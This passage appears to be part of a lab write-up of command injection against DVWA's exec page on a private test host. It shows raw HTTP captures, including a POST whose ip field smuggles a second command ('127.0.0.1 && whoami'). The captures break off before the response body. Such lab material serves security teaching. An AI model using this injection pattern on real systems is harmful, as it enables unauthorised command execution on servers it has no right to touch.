 HTTP/1.1 200 OK

Date: Tue, 20 Aug 2019 02:50:43 GMT

Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45

X-Powered-By: PHP/5.4.45

Content-Length: 4

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html

test

**POST请求包**a

POST /DVWA/vulnerabilities/exec/ HTTP/1.1

Host: 192.168.66.136

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 40

DNT: 1

Connection: keep-alive

Referer: <http://192.168.66.136/DVWA/vulnerabilities/exec/>

Cookie: security=low; PHPSESSID=190krorgsuckk0elaa1tk0v891

Upgrade-Insecure-Requests: 1

ip=127.0.0.1+%26%26+whoami&Submit=Submit

**POST返回包**a

HTTP/1.1 200 OK

Date: Tue, 20 Aug 2019 02:52:47 GMT

Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45

X-Powered-By: PHP/5.4.45

Expires: Tue, 23 Jun 2009 12:00:00 GMT

Cache-Control: no-cache, must-revalidate

Pragma: no-cache

Content-Length: 5161
